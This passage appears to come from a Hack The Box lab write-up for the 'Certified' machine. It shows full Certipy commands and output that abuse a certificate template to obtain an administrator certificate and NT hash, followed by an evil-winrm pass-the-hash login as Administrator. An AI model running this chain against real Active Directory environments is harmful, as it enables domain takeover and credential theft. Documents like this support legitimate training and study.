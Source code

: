 Use the Certipy tool to update the NT hash (a091c1832bcdd4677c28b5a6a1295584) to the ca_operator account and change the account's userPrincipalName (UPN) to Administrator

~~~ shell
┌──(root㉿chimp)-[/home/trit/HackTheBox/Certified]
└─# certipy-ad req -username ca_operator@certified.htb -p 12345678 -ca certified-DC01-CA -template CertifiedAuthentication -debug 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'CERTIFIED.HTB' at '192.168.6.2'
[+] Resolved 'CERTIFIED.HTB' from cache: 10.10.11.41
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.41[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.41[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
~~~

> If you are getting "Clock skew too great" error because there is a time difference between the attacker machine and the target machine. Following the step to fix it.
{: .prompt-warning }

- If you are not currently running as the root user, switch to the root user by running the `sudo su` command.
- Run `timedatectl set-ntp off` to disable the Network Time Protocol from auto-updating.
- Run `rdate -n $IP` to match your date and time with the date and time of the your target machine.

I used `certipy-ad` to authentication with certificate **administrator.pfx** just received above.

~~~ shell
┌──(root㉿chimp)-[/home/trit/HackTheBox/Certified]
└─# certipy-ad auth -pfx administrator.pfx -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34

~~~

- Certipy is used for certificate-based authentication in AD.
- You retrieved the NT hash, which can be used for Pass-the-Hash attacks or cracking.

Finally, get root flag 
~~~ shell 
┌──(root㉿chimp)-[/home/trit/HackTheBox/Certified]
└─# evil-winrm -i certified.htb -u 'Administrator' -H '0d5b49608bbce1751f708748f67e2d34'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

~~~
